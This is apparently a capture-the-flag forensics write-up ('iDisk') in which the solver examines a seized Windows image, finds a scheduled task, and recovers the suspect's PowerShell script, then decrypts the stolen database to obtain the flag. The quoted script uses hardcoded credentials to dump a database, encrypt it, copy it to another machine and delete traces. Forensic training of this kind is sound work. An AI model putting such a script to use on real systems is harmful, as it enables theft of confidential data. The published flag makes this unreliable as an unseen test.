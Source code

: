 # iDisk

> Il y a quelque temps, l'entreprise ECORP a constaté une intrusion au sein de son système d'information. Les équipes d'administrateurs système ont remarqué que des sauvegardes de la base de données "pre_prod" ont été effectuées à plusieurs reprises (et sans accord au préalable) aux alentours de 00h chaque jour. Après une longue enquête policière, un suspect (ex-employé d'ECORP) a été interpelé avec un ordinateur. Toutefois, la police étant en sous-effectif, nous avons besoin de votre aide afin de mener une investigation numérique sur la machine saisie. Êtes-vous prêt à accepter cette mission ?

## Solution

J'ouvre le fichier avec Autopsy.
Il s'agit d'une machine Windows.

Avec la description, j'imagine qu'il y a une tâche journalière qui s'effectue aux alentours de minuit qui sauvegarde la base de données pre_prod.

Pour le vérifier, je cherche sur internet où se trouvent les tâches : elles sont dans `C:\Windows\System32\Tasks`.

Bingo, je trouve un fichier intéressant.

![Bingo](../images/tasks.png)

Here are the file contents:

```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Date>2021-09-23T10:39:06.0408922</Date>
    <Author>DESKTOP-RD0QA0B\Skiddy</Author>
    <Description>ECORP's database dump</Description>
    <URI>\Backup</URI>
  </RegistrationInfo>
  <Triggers>
    <CalendarTrigger>
      <StartBoundary>2021-09-23T00:00:00</StartBoundary>
      <Enabled>true</Enabled>
      <ScheduleByDay>
        <DaysInterval>1</DaysInterval>
      </ScheduleByDay>
    </CalendarTrigger>
  </Triggers>
  <Principals>
    <Principal id="Author">
      <RunLevel>LeastPrivilege</RunLevel>
      <UserId>Skiddy</UserId>
      <LogonType>InteractiveToken</LogonType>
    </Principal>
  </Principals>
  <Settings>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>true</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
    <AllowHardTerminate>true</AllowHardTerminate>
    <StartWhenAvailable>false</StartWhenAvailable>
    <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable>
    <IdleSettings>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>false</Hidden>
    <RunOnlyIfIdle>false</RunOnlyIfIdle>
    <WakeToRun>false</WakeToRun>
    <ExecutionTimeLimit>P3D</ExecutionTimeLimit>
    <Priority>7</Priority>
  </Settings>
  <Actions Context="Author">
    <Exec>
      <Command>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Command>
      <Arguments>C:\Windows\System32\backup.ps1</Arguments>
    </Exec>
  </Actions>
</Task>
```

It calls a powershell script located in `C:\Windows\System32\backup.ps1`.
I also retrieve it.

```ps
# Connect to the remote server 
$password = ConvertTo-SecureString "ECORP2021" -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential ("root", $password)

$s = New-PSSession -ComputerName DESKTOP-GD806IG -Credential $Cred


# Backup the confidential database muahahaha
Invoke-Command -Session $s -ScriptBlock { Backup-SqlDatabase -ServerInstance "DESKTOP-GD806IG" -Database "pre_prod" -BackupFile "C:\Users\root\Documents\db_backup.bak" }

# Encrypt the dump
Invoke-Command -Session $s -ScriptBlock { cd "C:\Program Files\OpenSSL-Win64\bin"; .\openssl.exe aes-256-cbc -in C:\Users\root\Documents\db_backup.bak -out C:\Users\root\Documents\db_backup.bak.enc -iv 48bb06a87601bcf63228f2e06dfe72b6 -K b017d674c1cea5f5c7409573b5bff6d3677e6e8bc06c095d01b0a75dc0ad5756 }

# Create a compressed archive of the backup
Invoke-Command -Session $s -ScriptBlock { C:\Users\root\Downloads\7z1900-extra\7za.exe a -v1m "C:\Users\root\Documents\db_backup.zip" "C:\Users\root\Documents\db_backup.bak.enc"}

# Download the archive
Invoke-Command -Session $s -ScriptBlock {$myPassword = ConvertTo-SecureString "Test1234" -AsPlainText -Force; $myCreds = New-Object System.Management.Automation.PSCredential ("DESKTOP-RD0QA0B\Skiddy", $myPassword); $mySession = New-PSSession -ComputerName "DESKTOP-RD0QA0B" -Credential $myCreds; Copy-Item -Path C:\Users\root\Documents\db_backup.zip* -Destination 'C:\Users\Skiddy\Music\Jazz' -ToSession $mySession }

# Copy the files to an external drive
cp C:\Users\Skiddy\Music\Jazz\db_backup.zip* E:\Backups

# Cleanup 
rm C:\Users\Skiddy\Music\Jazz\*
```

The script is very easy to understand: it connects to the confidential database, creates a backup on the server `C:\Users\root\Documents\db_backup.bak`, encrypts it with OpenSSL using AES-CBC with a hardcoded IV and key to `C:\Users\root\Documents\db_backup.bak.enc`, compresses it using `7za.exe` to `C:\Users\root\Documents\db_backup.zip`.

Then the zip file is extracted on the computer to `C:\Users\Skiddy\Music\Jazz`.

I go retrieve the files there, and I see several deleted (but they are still present because only logically deleted) parts of the database.

I extract them, reconstruct the ZIP by concatenating the different parts, and use `openssl` to decrypt the database.

```bash
cat db_backup.zip.0* > db_backup.zip
unzip db_backup.zip
openssl aes-256-cbc -d -in db_backup.bak.en
c -out db_backup.bak -iv 48bb06a87601bcf63228f2e06dfe72b6 -K b017d674c1cea5f5c7409573b5bff6d3677e6e8bc06c095d01b0a75dc0a
d5756
strings db_backup.bak | grep DGA
```

gives me the flag.

Flag: `DGA{95ecd8f47dc647599e9d1f7a90974a997338cd48}`